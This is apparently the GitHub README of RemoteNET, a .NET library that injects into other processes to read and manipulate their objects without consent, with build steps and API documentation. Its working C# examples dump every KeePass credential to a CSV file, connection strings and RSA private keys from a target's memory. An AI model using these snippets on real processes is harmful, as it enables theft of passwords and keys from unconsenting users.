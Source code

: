 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET (framework) processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET (framework) app without asking for permissions :)

Tested versions:
.NET 5/6,  
.NET Core 3.0/3.1,  
.NET Framework 4.5/4.6/4.7/4.8 (incl. subversions)


## Compilation
1. Clone
2. Open `RemoteNET.sln` file in VisualStudio 2019
3. Build Solution (`Ctrl+Shift+B`)

If you get errors of missing exes/dlls make sure the compilation order is set such that  
the C++ projects compile first (BOTH x32 and x64 need to be compiled), then **ScubaDiver** and then **RemoteNET**.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ★ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ★ Getting Remote Objects
RemoteNET allows you to interact with existing objects and create new ones.  
**To find existing objects** you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```
**To create new objects** the `Activator`-lookalike can be used:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the (string,int) constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ★ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ★ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun example dumps all private RSA keys (which are stored in `RSACryptoServiceProvider`s) that are found in the target's memory:
```C#
Func<byte[], string> ToHex = ba => BitConverter.ToString(ba).Replace("-", "");

// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidateRsa in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidateRsa);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    Console.WriteLine(" * Key found:");
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine("Modulus: " + ToHex(parameters.Modulus));
    Console.WriteLine("Exponent: " + ToHex(parameters.Exponent));
    Console.WriteLine("D: " + ToHex(parameters.D));
    Console.WriteLine("P: " + ToHex(parameters.P));
    Console.WriteLine("Q: " + ToHex(parameters.Q));
    Console.WriteLine("DP: " + ToHex(parameters.DP));
    Console.WriteLine("DQ: " + ToHex(parameters.DQ));
    Console.WriteLine("InverseQ: " + ToHex(parameters.InverseQ));
}
```

## TODOs
1. Generics aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. .NET core/.NET 5
6. Support other .NET framework CLR versions. Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
